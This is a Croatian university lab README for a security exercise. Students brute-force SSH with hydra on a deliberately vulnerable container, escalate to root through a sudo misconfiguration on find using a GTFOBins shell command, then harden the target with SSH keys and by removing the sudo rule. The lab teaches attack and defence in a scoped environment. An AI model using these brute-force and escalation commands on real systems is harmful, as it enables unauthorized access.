

**Jezik:** [English](README.md) · Hrvatski

<!-- kicker: Vježba 06 · napadni pa obrani · Sigurnost informacijskih sustava -->
# Vježba 06 — Eksploatacija i eskalacija privilegija

*Od slabe lozinke do roota u tri koraka. Rijetko je u pitanju genijalni exploit — češće slaba lozinka i jedna loša konfiguracija.*

`~90 min` · `Kali · nmap · hydra · SSH` · `razina: srednja` · `predaja: Merlin`

> [!WARNING]
> **Etika i opseg.** Isključivo na ovoj namjerno ranjivoj meti u lab okruženju. Dictionary napadi i eskalacija na stvarnim sustavima bez pisanog dopuštenja su kazneno djelo.

**Scenarij.** Flicker ima zaboravljeni poslužitelj na mreži. Ti si prvo **napadač** koji probija slabu lozinku, ulazi i postaje root, a onda **administrator** koji zatvara svaki korak tog lanca.

## Ishodi učenja

- Otkriti servis i izvesti dictionary napad na prijavu.
- Dobiti pristup i enumerirati mogućnosti eskalacije privilegija.
- Iskoristiti sudo pogrešku u konfiguraciji za root i pročitati zaštićeni flag.
- Zatvoriti svaki korak lanca na meti i dokazati to ponovljenim napadom.

## Preduvjeti

- [ ] [Vježba 00](../lab-00-setup/README.hr.md) odrađena — Kali + Docker rade.
- [ ] Repozitorij kolegija kloniran u `~/Information-System-Security` (to si napravio u [Vježbi 03](../lab-03-network/README.hr.md)).
- [ ] Tvoj matični broj i vrijednost `ISS_SECRET` (daje je nastavnik).
- [ ] Osnove Linuxa: korisnici, `root`, dozvole nad datotekama.

## Priprema · ~10 min

Radiš u istom repozitoriju kao u Vježbi 05. Ažuriraj ga, uđi u mapu ove vježbe i zaustavi metu iz Vježbe 05 — više ti ne treba, a gašenjem oslobađaš memoriju u VM-u:

```bash
cd ~/Information-System-Security && git pull
cd lab-06-exploitation
docker compose -f ../lab-05-web-auth/compose.yml down
```

Pokreni snimanje svog rada (obavezno za predaju). Sve što upišeš u ovaj terminal snima se dok na kraju vježbe ne pritisneš `Ctrl-D`; nakon toga zaustavi metu s `docker compose down`. Cijela se ova vježba radi u terminalu, zato sve radi u ovom jednom prozoru:

```bash
asciinema rec vjezba.cast
```

Meti trebaju dvije tvoje vrijednosti. Kopiraj primjer datoteke i otvori kopiju u uređivaču teksta `nano`:

```bash
cp .env.example .env
nano .env
```

Postavi `MB=` na svoj matični broj, a `ISS_SECRET=` na vrijednost koju si dobio od nastavnika. Spremi s `Ctrl-O`, pa `Enter`, a iz uređivača izađi s `Ctrl-X`.

Sagradi i pokreni metu: mali Linux poslužitelj u kontejneru, namjerno ranjiv. Na njemu radi **SSH**, servis kojim se administratori prijavljuju na udaljenu naredbenu liniju, objavljen na `localhost:2222`:

```bash
docker compose up -d --build
```

Pri pokretanju meta iz tvog matičnog broja izračuna flag i spremi ga u `/root/flag.txt`, datoteku koju smije čitati samo korisnik `root`. Ako je pročitaš, dokazao si da si postao root. U ovoj je mapi i kratka lista mogućih lozinki, `passwords.txt`.

> [!TIP]
> **Čest problem.** `required variable MB is missing a value` (ili isto za `ISS_SECRET`) znači da u ovoj mapi nema `.env` ili je taj redak u njemu prazan. `no configuration file provided` znači da nisi u mapi `lab-06-exploitation`. Upisao si krivi matični broj? Ispravi `.env` i ponovno pokreni `docker compose up -d`: flag se iznova računa pri svakom pokretanju mete.

## Pozadina — eksploatacija u minuti

Eksploatacija je korak u kojem *propust* postaje *kontrola*: napadač nešto što nikad nije smjelo biti dostupno — slabu lozinku, nemarnu konfiguraciju ili nezakrpanu ranjivost (katkad poznati **CVE**) — pretvara u mogućnost da na stroju pokreće vlastite naredbe. Na ovoj meti propust nije egzotičan: prijava s lozinkom koja se da pogoditi stoji izložena na mreži, pa alat poput **hydre** jednostavno isprobava lozinku za lozinkom dok ne uđe, a framework poput **Metasploita** isti bi napad spakirao u modul od jedne linije. Automatizacija je ono što to čini toliko opasnim — napadaču ne trebaju ni vještina ni sreća, nego samo dostupan service i slaba tajna. Da je jedna izložena prijava dovoljna nije teorija: botnet **Mirai** narastao je na stotine tisuća uređaja ne radeći ništa pametnije od isprobavanja kratke liste od otprilike šezdeset tvorničkih parova korisničko ime/lozinka na otvorenim Telnet prijavama.

Uporište je rijetko kraj. Kad uđe kao običan korisnik, napadač traži **eskalaciju privilegija** — put od tog računa do `root`a. Ovdje je to `sudo` pogreška u konfiguraciji: korisnik smije pokrenuti jedan program kao root bez lozinke, a ako taj program može pokrenuti ljusku (vidi **GTFOBins**), ljuska koju pokrene vrti se *kao root*. To je cijeli lanac — slaba lozinka → korisničko uporište → loše dodijeljena ovlast → potpuna kontrola — a obrana kida svaku kariku: SSH ključevi umjesto lozinki koje se pogađaju, najmanje ovlasti da nijedan račun ne može tiho postati root, te krpanje ili segmentacija servisa koji uopće ne moraju biti okrenuti prema mreži.



Lijevi put je Dio 1: jedna lozinka koja se da pogoditi i jedan nemaran `sudo` redak povezuju se sve do roota. Desni put je Dio 2 — prekini bilo koju kariku i lanac stane: ključevi umjesto lozinki, najmanje ovlasti umjesto `sudo` pravila koje pokreće ljusku, service koji nije bespotrebno izložen.

## Dio 1 — Ofenzivno: od lozinke do roota · ~35 min

### 1.1 Otkrij servis
**nmap** je skener portova iz Vježbe 03. Pitaj ga što sluša na portu 2222; `-sV` uz to ispita servis i otkrije naziv i verziju softvera iza njega:

```bash
nmap -sV -p 2222 localhost
```

Ne možeš napasti servis koji ne vidiš, zato otkrivanje ide prvo: potvrda da je to OpenSSH na `2222` napadaču kaže točno koju prijavu da gađa, a `-sV` iščita verziju za slučaj da za nju već postoji poznata ranjivost.

> [!NOTE]
> **Očekivano.** Jedan redak rezultata: `2222/tcp open  ssh  OpenSSH 9.2p1 Debian …`. Port je otvoren, a softver koji na njemu odgovara je OpenSSH.

### 1.2 Dictionary napad na prijavu
Korisničko ime je `flicker`, ime same tvrtke: napadači prvo probaju ono očito. Za lozinku imaš `passwords.txt`, kratku listu kakvu napadač složi za jednu određenu tvrtku (njezino ime, godišnja doba, godine, klasici s tipkovnice). Pogledaj je:

```bash
cat passwords.txt
```

**hydra** je alat za probijanje prijava: otvara stvarne veze prema mrežnom servisu i isprobava lozinku za lozinkom. Usmjeri je na SSH prijavu:

```bash
hydra -l flicker -P passwords.txt -t 4 -s 2222 ssh://localhost
```

`-l` je jedno korisničko ime koje se isprobava, `-P` datoteka s lozinkama, a `-s` port. `-t 4` ograničava hydru na četiri veze odjednom, jer SSH poslužitelj počne odbijati klijente koji ih otvore previše.

Ovo je cijelo uporište u jednoj naredbi: hydra automatizira pogađanje, pa snaga prijave ovisi isključivo o lozinci — slaba padne za vrijeme potrebno da se pročita lista, bez obzira koliko softver bio ažuran.

> [!NOTE]
> **Očekivano.** Nakon nekoliko sekundi hydra ispiše redak koji počinje s `[2222][ssh] host: localhost` i završava s `login: flicker   password: …` (probijena lozinka), a zatim `1 of 1 target successfully completed, 1 valid password found`.

> [!TIP]
> **Čest problem.** Napad preko mreže je spor — zato koristiš malu, ciljanu listu, ne cijeli rockyou. `[ERROR] could not connect to ssh://…:2222 - Connection refused` znači da meta ne radi: provjeri s `docker compose ps` i ponovno je pokreni s `docker compose up -d`.

### 1.3 Uđi i enumeriraj
Prijavi se preko SSH-a lozinkom koju je hydra pronašla. Prvi put `ssh` pokaže otisak ključa poslužitelja (fingerprint) i pita želiš li nastaviti: upiši `yes`. Lozinka se pri upisu ne vidi.

```bash
ssh flicker@localhost -p 2222
```

Prompt se promijeni u `flicker@…:~$`. Odsad se tvoje naredbe izvršavaju na meti, a ne na Kaliju. Provjeri tko si i pokušaj pročitati flag:

```bash
id
cat /root/flag.txt
```

> [!NOTE]
> **Očekivano.** `uid=1000(flicker) gid=1000(flicker) groups=1000(flicker)`, a zatim `cat: /root/flag.txt: Permission denied`. Unutra si, ali samo kao običan korisnik.

Dobiti ljusku nije cilj — običan korisnik ne može pročitati `/root/flag.txt`. Zato je prvi potez nakon ulaska enumeracija. **sudo** pokreće jednu naredbu kao drugi korisnik, najčešće root, a `sudo -l` je najvrjednija provjera od svih: bez pogađanja ti kaže točno što ovaj račun smije tako pokrenuti.

```bash
sudo -l
```

> [!NOTE]
> **Očekivano.** Zadnja dva retka glase `User flicker may run the following commands on …:` i `(root) NOPASSWD: /usr/bin/find`. Račun smije pokrenuti jedan program, `find`, kao root, a `NOPASSWD` znači da ga se pritom ni ne pita za lozinku.

### 1.4 Eskalacija do roota
`find` izgleda bezazleno: traži datoteke. No nad onim što nađe može i pokrenuti naredbu (`-exec`), a pod `sudo` ta se naredba izvršava kao root. [GTFOBins](https://gtfobins.org/) je popis svakodnevnih programa koji se mogu ovako iskriviti. Tehniku potraži, nemoj je pogađati:

1. U Firefoxu otvori `https://gtfobins.org/`, u polje za pretragu upiši `find` i otvori stranicu `find`.
2. U odjeljku **Shell** odaberi karticu **Sudo**. Ona pokazuje naredbu kojom `find` pokreće ljusku.
3. Tu naredbu pokreni na meti sa `sudo` ispred. Stranica je navodi bez `sudo`, jer je `sudo` ondje situacija u kojoj se nalaziš, a ne dio trika:

```bash
sudo find . -exec /bin/sh \; -quit
```

`-exec /bin/sh \;` kaže programu `find` da za prvu datoteku na koju naiđe pokrene ljusku, a `-quit` nakon nje prekida pretragu. Prompt postaje `#`: root ljuska. Dokaži to i pročitaj svoj flag:

```bash
id
cat /root/flag.txt
```

> [!NOTE]
> **Očekivano.** `uid=0(root) gid=0(root) groups=0(root)` i tvoj flag, `ASPIRA{sis06_…}` sa šest heksadekadskih znakova.

Pouka je najmanje ovlasti: `sudo` pokreće program *kao root*, pa ako taj program može pokrenuti ljusku ili izvršiti proizvoljne naredbe, napadač nasljeđuje root — jedno preširoko `sudo` pravilo briše razliku između računa `flicker` i potpune kontrole.

Izađi iz root ljuske, a zatim i iz SSH sesije, tako da si za Dio 2 opet na Kali promptu:

```bash
exit
exit
```

> [!TIP]
> **Čest problem.** Iz ovih ljuski izlazi s `exit`. I `Ctrl-D` zatvara ljusku, pa jedan pritisak previše zatvori Kali ljusku i prekine snimanje. `WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!` kod koraka `ssh` znači da je meta ponovno sagrađena i ima novi ključ: pokreni `ssh-keygen -R "[localhost]:2222"` i spoji se ponovno.

**U izvještaj:** probijena lozinka, izlaz `sudo -l`, naredba kojom si dobio root, sadržaj `/root/flag.txt` i `id` koji pokazuje `uid=0(root)`.

## Dio 2 — Defenzivno: zatvori lanac · ~40 min

Sada si Flickerov administrator. Napadu su trebale tri stvari: lozinka koja se dala pogoditi, prijava koja lozinke uopće prihvaća i `sudo` pravilo koje dijeli root. Zadnje dvije popravit ćeš na samoj meti, a zatim ponoviti vlastiti napad i dokazati da je svaka karika zatvorena.

### 2.1 Zašto je svaki korak prošao
Za svaki korak (slaba lozinka → SSH → sudo misconfig) objasni u jednoj rečenici zašto je uspio.

### 2.2 Primijeni popravak
**Ključevi umjesto lozinki.** Par SSH ključeva zamjenjuje lozinku tajnom koja nikad ne putuje do poslužitelja i preduga je da bi se pogodila. Napravi par za ovu vježbu i njegovu javnu polovicu postavi korisniku `flicker`. Ovo je zadnji put da ti treba probijena lozinka:

```bash
ssh-keygen -t ed25519 -f ~/.ssh/lab06 -N ""
ssh-copy-id -i ~/.ssh/lab06.pub -p 2222 flicker@localhost
```

`ssh-keygen` zapiše privatni ključ u `~/.ssh/lab06`, a javni u `~/.ssh/lab06.pub`; `-N ""` ostavlja ključ bez zaštitne lozinke (passphrase), što je prihvatljivo samo u vježbi. `ssh-copy-id` doda javni ključ u `~/.ssh/authorized_keys` na meti. Provjeri da ključ radi **prije** nego isključiš lozinke, da se ne zaključaš vani:

```bash
ssh -i ~/.ssh/lab06 -p 2222 flicker@localhost id
```

> [!NOTE]
> **Očekivano.** `uid=1000(flicker) …`, bez upita za lozinku.

**Promijeni poslužitelj.** Administrator ima pristup konzoli poslužitelja. Ovdje je to `docker compose exec target …`, što pokreće naredbu kao root unutar mete, mimo SSH-a. Isključi prijavu lozinkom, obriši nemarno `sudo` pravilo i ponovno pokreni metu:

```bash
docker compose exec target sed -i 's/^PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config
docker compose exec target rm /etc/sudoers.d/flicker
docker compose restart target
```

Prva naredba mijenja konfiguraciju SSH poslužitelja: `sed -i` zamjenjuje tekst unutar datoteke, a tako se uređuje na poslužitelju na kojem nema uređivača teksta. Druga briše datoteku koja je korisniku `flicker` dala program `find` kao root. SSH poslužitelj čita konfiguraciju samo pri pokretanju, zato ponovno pokretanje; na stvarnom poslužitelju pokrenuo bi `sudo systemctl reload ssh`.

> [!TIP]
> **Čest problem.** Ovdje koristi `restart`, a ne `up --build` ni `down`: tvoje izmjene žive unutar pokrenutog kontejnera, a iznova stvoren kontejner opet je ranjiv. To ti je ujedno i gumb za povratak na početak: `docker compose up -d --force-recreate` vraća izvornu metu ako Dio 2 želiš krenuti ispočetka.

### 2.3 Napadni ponovno
Ponovi Dio 1 na popravljenoj meti:

```bash
hydra -l flicker -P passwords.txt -t 4 -s 2222 ssh://localhost
ssh flicker@localhost -p 2222
```

> [!NOTE]
> **Očekivano.** hydra stane s `[ERROR] target ssh://…:2222/ does not support password authentication`, a `ssh` odgovori `Permission denied (publickey).` i ne pita za lozinku. Probijena lozinka na ulazu više ne vrijedi ništa.

Prijavi se ključem i ponovno provjeri `sudo`. Ovaj put `sudo` traži lozinku: upiši onu koju si probio.

```bash
ssh -i ~/.ssh/lab06 -p 2222 flicker@localhost
sudo -l
exit
```

> [!NOTE]
> **Očekivano.** `Sorry, user flicker may not run sudo on …`. Ni onaj tko zna lozinku ne dobiva root. Zadnji redak, `exit`, vraća te na Kali.

**U izvještaj:** tri rezultata nakon popravka (hydrina greška, odbijena prijava lozinkom, odbijeni `sudo -l`) i za svaki jedna rečenica o tome koju kariku lanca zatvara.

### 2.4 Preporuke
3 konkretne preporuke za Flicker, poredane po učinku. Dvije si karike zatvorio ručno; navedi što još nedostaje (primjerice jake lozinke ili drugi faktor ondje gdje lozinke ostaju, `fail2ban` ili ograničavanje broja pokušaja, bilježenje i upozorenja za `sudo` i neuspjele prijave, SSH koji nije izložen mrežama kojima ne treba).

### Za brze — bonus
- Prije popravka ili nakon povratka na početak: izvedi isti ulazak preko Metasploita (`ssh_login` modul) i usporedi s hydrom.
- Napiši minimalni ispravan `sudoers` redak koji korisniku `flicker` i dalje daje potrebnu funkciju, ali bez puta do roota.

## Predaja

- `vjezba06_<MB>.pdf` — cijeli lanac s izlazima, `/root/flag.txt`, `id` kao root, ponovljeni napad nakon popravka, preporuke.
- **[asciinema](https://asciinema.org/) snimka** rada (`asciinema rec vjezba.cast`, zaustavi s `Ctrl-D`) — obavezna; flag samo pokazuje čiji je rad, snimka je dokaz da je odrađen.

## Bodovanje

| Stavka | Bodovi |
|---|:-:|
| Otkrivanje servisa + probijena lozinka | 3 |
| Eskalacija do roota + pročitan flag | 3 |
| Popravak primijenjen i dokazan ponovljenim napadom | 3 |
| Preporuke po učinku | 1 |
| Bonus | +1 |
